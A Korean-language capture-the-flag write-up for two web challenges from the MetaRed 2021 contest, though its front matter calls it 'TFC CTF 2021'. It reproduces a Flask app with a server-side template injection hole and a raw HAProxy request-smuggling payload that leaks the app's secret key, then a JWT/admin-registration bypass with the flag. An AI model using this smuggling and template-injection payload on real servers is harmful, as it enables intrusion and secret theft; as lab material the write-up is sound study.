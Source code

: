 ```yaml
---
title:  "TFC CTF 2021"
excerpt: "Syno, Center"

categories:
  - CTF
tags:
  - Syno
  - Center
  
date: 2021-12-29 12:00:00 +0900
last_modified_at: 2021-12-29 12:00:00 +0900

---
```


# Repeated Lock

#### Author : randN

#### Category : WEB

#### Description
```The students asked for help from Sr. Sergio from TI for deploying a patched version of the new 4841 proxy. This time they protected the server a little better. ```

#### Write up

해다 문제에서는 python파일과 웹 페이지가 제공됩니다.
```
from flask import Flask, render_template, render_template_string, request
import os
import utils


app = Flask(__name__)
app.config['SECRET_KEY'] = 'CTFUA{REDACTED}'


@app.route('/', methods=['GET', 'POST'])
def home():
    return render_template('home.html')


@app.route('/admin', methods=['GET', 'POST'])
def admin():
    return 'Under Construction...'


@app.route('/users')
def users():
    username = request.args.get('user', '<User>')
    if utils.filter(username):
        return render_template_string('Hello ' + username + '!')
    else:
        return 'Hello ' + username  + '!'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)
```
![page](https://user-images.githubusercontent.com/84657474/147018221-e3b478f5-22db-41bb-aaa5-3f6de9d8a93f.png)

Python 코드를 조금 주의 깊게 본다면 **user** 메소드에 SSTI 취약점이 존재하는것을 알 수 있지만 사용자 경로에 엑세스하려고 하면 **403 Forbidden** 이라고 뜹니다.

앱 인프라에 대한 정보를 누출하는 서버 헤더가 있으며, Challenge설명에 4841 프록시에 대한 참조가 있었습니다.

4841은 HA의 16진수 값 이므로 사용되는 프록시는 HA 프록시 입니다.

이 경우에 유용할 수 있는 취약점에 대해 일부 Google 검색을 수행하면 취약점이 나타납니다.
https://jfrog.com/blog/critical-vulnerablility-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

이제 배치된 ACL을 우회하기 위해 HTTP 요청을 생성하거나 페이로드를 작성하면됩니다.

Flask SECRET_KEY에 엑세스하고 싶기때문에 가장 간단한 페이로드를 시도해보았습니다. ```{{config}}```

```
POST /admin HTTP/1.1
Host: ctf-metared-2021.ua.pt:2011
Content-
Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Lengt: 101

Get /users?user=%7B%7Bconfig%7D%7D HTTP/1.1
h:GET /admin HTTP/1.1
HOST: ctf-metared-2021.ua.pt:2011
```

```cat poc | nc ctf-metared-202.ua.pt 2011``` 명령어를 실행하면 간단하게 Flag를 얻을 수 있었습니다.

# Vulns? None
- Category : WEB
- Author : randN

<hr>

# Solve

이 문제는 매우 간단했습니다 
일단 쿠키값에서 JWT 토큰값을 발견했습니다.

사이트로는 ```https://jwt.io/``` 를 사용하였습니다.
- 우선 JWT 토큰을 디코드해 정보를 얻어냈습니다 
<img width="500" src="https://user-images.githubusercontent.com/90122834/147406429-424965ca-45ce-400e-9bcb-8f1f2befbca3.png">

얻어 낸 값으로는
- 토큰의 값은 JWT
- 토큰 검증을 위한 signature에 사용될 알고리즘은 RS256
-  시그니쳐 검증을 위한 키 값을 확인할 수 있었습니다


이를 토대로 간단한 파이썬 코드를 짜서 플래그를 획득 할 수 있었습니다 

하지만 이 방법 말고도 다른 방법으로도 해결해봤습니다

회원가입을 할수있는 창이 있었는데 ```id : admin password : 1```을 통해서 가입후 

admin page로 acces시 플래그를 획득 할 수 있었습니다

flag : ```CTFUA{JWT_1337_N0n3_dnVsbg==}```


# 라이트업 
- [https://github.com/CYB3R-Syno/MetaRed2021-5th-Writeup](https://github.com/CYB3R-Syno/MetaRed2021-5th-Writeup)
- [https://github.com/FRWEXX/CTF-Internacional-MetaRed-2021---5th-STAGE-write-up/blob/main/WEB/Vulns%3F%20None.md](https://github.com/FRWEXX/CTF-Internacional-MetaRed-2021---5th-STAGE-write-up/blob/main/WEB/Vulns%3F%20None.md)